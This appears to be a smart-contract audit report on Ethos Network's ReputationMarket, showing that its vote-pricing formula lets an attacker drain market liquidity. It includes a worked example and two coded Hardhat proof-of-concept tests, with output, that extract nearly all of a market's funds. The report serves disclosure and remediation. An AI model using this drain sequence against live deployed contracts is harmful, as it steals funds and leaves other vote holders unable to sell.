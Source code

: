 Itchy Ginger Loris

High

# Market liquidity can be drained due to inefficient pricing formula

## Summary
Unlike constant formula AMMs, the Ethos pricing formula is designed to maintain a constant base price, not reserves/liquidity. That leads to the possibility of stealing market liquidity by manipulating the supply of votes. By creating an imbalanced position of trusted and distrusted votes, an attacker can craft a state where they can gain more from selling than was spent on them.

That leads to stolen market liquidity and, as a result, the inability of other vote holders to sell their votes.

Additionally, that breaks the following README's statement:

> Reputation Markets must never sell the initial votes. **They must never pay out the initial liquidity deposited. The only way to access those funds is to graduate the market.**

## Vulnerability Detail

As can be seen from the code snippet below, this formula ensures that at any point of time, prices of trusted votes and distrusted votes sum up to `basePrice`:


```solidity
File: /ethos/packages/contracts/contracts/ReputationMarket.sol#L920

  function _calcVotePrice(Market memory market, bool isPositive) private pure returns (uint256) {
    uint256 totalVotes = market.votes[TRUST] + market.votes[DISTRUST];
    return (market.votes[isPositive ? TRUST : DISTRUST] * market.basePrice) / totalVotes;
  }
```

However, this formula doesn't account for market liquidity (which is tracked via the `marketFunds[profileId]` variable), making it susceptible to manipulations.

## Proof of Concept
Given the market created with 2 votes and 1 ETH basePrice:

1. User buys 1 distrust vote, price = 1.0 ETH * 1 / 2 = 0.5 ETH
2. User buys 1st trust vote , price = 1.0 ETH * 1 / 3 = 0.333 ETH
3. User buys 2nd trust vote , price = 1.0 ETH * 2 / 4 = 0.5 ETH
Total spent: 1.333 ETH

4. User sells distrust vote,  price = 1.0 ETH * 1 / 4 = 0.25 ETH
5. User sells 1st trust vote, price = 1.0 ETH * 2 / 3 = 0.66 ETH
5. User sells 2nd trust vote, price = 1.0 ETH * 1 / 2 = 0.5 ETH
Total received: 1.416 ETH

User gains (and thus the market loses): 0.083 ETH


## Coded PoC #1

This PoC follows the same example as mentioned in the section above.

Insert new test into "Very high price limits" section of the file https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/test/reputationMarket/rep.price.test.ts#L135:

```typescript
    it("market_drained_poc1", async () => {
      const userBalanceBefore = await ethers.provider.getBalance(userA.signer.address);
      console.log(`UserA balance (initial)      : ${ethers.formatEther(userBalanceBefore)}`);
      console.log(`market liquidity (initial)   : ${ethers.formatEther(await reputationMarket.marketFunds(DEFAULT.profileId))}`);

      // buy 1 distrust
      await userA.buyVotes({ profileId: DEFAULT.profileId, buyAmount: ethers.parseEther("1"), isPositive: false });
      let votesOwned = await reputationMarket.getUserVotes(userA.signer.address, DEFAULT.profileId);

      // buy trust
      await userA.buyVotes({ profileId: DEFAULT.profileId, buyAmount: ethers.parseEther("0.6"), isPositive: true });
      await userA.buyVotes({ profileId: DEFAULT.profileId, buyAmount: ethers.parseEther("0.6"), isPositive: true });
      votesOwned = await reputationMarket.getUserVotes(userA.signer.address, DEFAULT.profileId);

      // sell distrust
      await userA.sellVotes({ profileId: DEFAULT.profileId, sellVotes: votesOwned.distrustVotes, isPositive: false });
      votesOwned = await reputationMarket.getUserVotes(userA.signer.address, DEFAULT.profileId);

      // sell trust     
      await userA.sellVotes({ profileId: DEFAULT.profileId, sellVotes: BigInt(1) /*votesOwned.trustVotes*/, isPositive: true });
      await userA.sellVotes({ profileId: DEFAULT.profileId, sellVotes: BigInt(1) /*votesOwned.trustVotes*/, isPositive: true });
      votesOwned = await reputationMarket.getUserVotes(userA.signer.address, DEFAULT.profileId);
      const userBalanceAfterSell2 = await ethers.provider.getBalance(userA.signer.address);
      console.log(`UserA balance: ${ethers.formatEther(userBalanceAfterSell2)}; gain : ${ethers.formatEther(userBalanceAfterSell2 - userBalanceBefore)}`)
      console.log(`market liquidity             : ${ethers.formatEther(await reputationMarket.marketFunds(DEFAULT.profileId))}`);
    });
```

Result:

```bash
$ npx hardhat test --grep "market_drained_poc1"


  ReputationMarket Base Price Tests
    Very high price limits
UserA balance (initial)      : 2000.0
market liquidity (initial)   : 1.0
UserA balance: 2000.08245115269279307; gain : 0.08245115269279307
market liquidity             : 0.916666666666666667
      ✔ market_drained_poc1 (62ms)


  1 passing (2s)
```

## Coded PoC #2

This PoC demonstrates how 99% of market liquidity can be stolen.

Insert new test into "Very high price limits" section of the file https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/test/reputationMarket/rep.price.test.ts#L135:

```typescript
 it("market_drained_poc2", async () => {
      const amounToSpend_N = ethers.parseEther('100');
      const amounToSpend_P = ethers.parseEther('220');
      console.log(`market liquidity (initial)   : ${ethers.formatEther(await reputationMarket.marketFunds(DEFAULT.profileId))}`);
    
      const userBalanceBefore = await ethers.provider.getBalance(userA.signer.address);
      console.log(`UserA balance (initial)      : ${ethers.formatEther(userBalanceBefore)}`);

      // buy negative shares
      await userA.buyVotes({ profileId: DEFAULT.profileId, buyAmount: amounToSpend_N, isPositive: false });

      // buy positive shares
      await userA.buyVotes({ profileId: DEFAULT.profileId, buyAmount: amounToSpend_P, isPositive: true });

      const userBalanceAfterBuy = await ethers.provider.getBalance(userA.signer.address);
      console.log(`UserA balance after purchases: ${ethers.formatEther(userBalanceAfterBuy)}`);

      let votesOwned = await reputationMarket.getUserVotes(userA.signer.address, DEFAULT.profileId);

      // sell negative shares
      await userA.sellVotes({ profileId: DEFAULT.profileId, sellVotes: votesOwned.distrustVotes, isPositive: false });

      const marketLiq = await reputationMarket.marketFunds(DEFAULT.profileId);
      console.log(`market liquidity (neg sold)  : ${ethers.formatEther(marketLiq)}`);

      // finding out how many positive votes we can sell without reverting due to arithmetic underflow
      let maxSell = Number(votesOwned.trustVotes);
      let minSell = 0;

      let sell = 0;
      while (minSell <= maxSell) { // binary search
        sell = minSell + Math.trunc((maxSell - minSell) / 2);

        let res = await reputationMarket.connect(userA.signer).simulateSell(DEFAULT.profileId, true, sell);
        if (res.fundsReceived > marketLiq) {
          maxSell = sell - 1;
        } else {
          minSell = sell + 1;
          res = await reputationMarket.connect(userA.signer).simulateSell(DEFAULT.profileId, true, minSell);
          if (res.fundsReceived >= marketLiq) break;
        }
      }

      console.log(`max sell votes count: ${sell}`);
      await userA.sellVotes({ profileId: DEFAULT.profileId, sellVotes: BigInt(sell), isPositive: true });
      console.log(`market liquidity (pos sold)  : ${ethers.formatEther(await reputationMarket.marketFunds(DEFAULT.profileId))}`);
    
      const userBalanceFinal = await ethers.provider.getBalance(userA.signer.address);
      console.log(`UserA balance (final))       : ${ethers.formatEther(userBalanceFinal)}`);
      console.log(`UserA profit                 : ${ethers.formatEther(userBalanceFinal - userBalanceBefore)}`);
    });
```

Result:

```bash
$ npx hardhat test --grep "market_drained_poc2"


  ReputationMarket Base Price Tests
    Very high price limits
market liquidity (initial)   : 1.0
UserA balance (initial)      : 2000.0
UserA balance after purchases: 1680.513571558216838385
market liquidity (neg sold)  : 308.332301763408691446
max sell votes count: 310
market liquidity (pos sold)  : 0.006707300639778622
UserA balance (final))       : 2000.991118144525447625
UserA profit                 : 0.991118144525447625
      ✔ market_drained_poc2 (389ms)


  1 passing (2s)
```

## Impact

* Market funds drained
* Other vote holders cannot sell.

## Code Snippet

https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L920-L923

## Recommendation

Reconsider the formula, it must account for the available liquidity and should not allow it to be drained. Constant `basePrice` must not play important role in the new formula.

